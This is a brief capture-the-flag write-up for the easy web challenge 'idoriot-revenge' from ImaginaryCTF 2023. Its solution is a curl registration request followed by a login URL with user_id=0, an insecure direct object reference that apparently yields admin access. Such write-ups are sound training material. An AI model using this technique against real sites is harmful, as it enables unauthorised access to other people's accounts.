 # idoriot-revenge
**Category:** Web
**Difficulty:** Easy
**Author:** tirefire

## Description

The idiot who made it, made it so bad that the first version was super easy. It was changed to fix it.

## Distribution

- link

## Solution

- curl -iL 'http://2023.imaginaryctf.org/idoriot/register.php' -X POST -H 'Content-Type: application/x-www-form-urlencoded' --data-raw 'username=aaaaaaadminaaaa&password=somethingelse'
- now log in as aaaaaaadminaaaa:somethingelse and pass the url parameter http://2023.imaginaryctf.org/idoriot/login.php?user_id=0

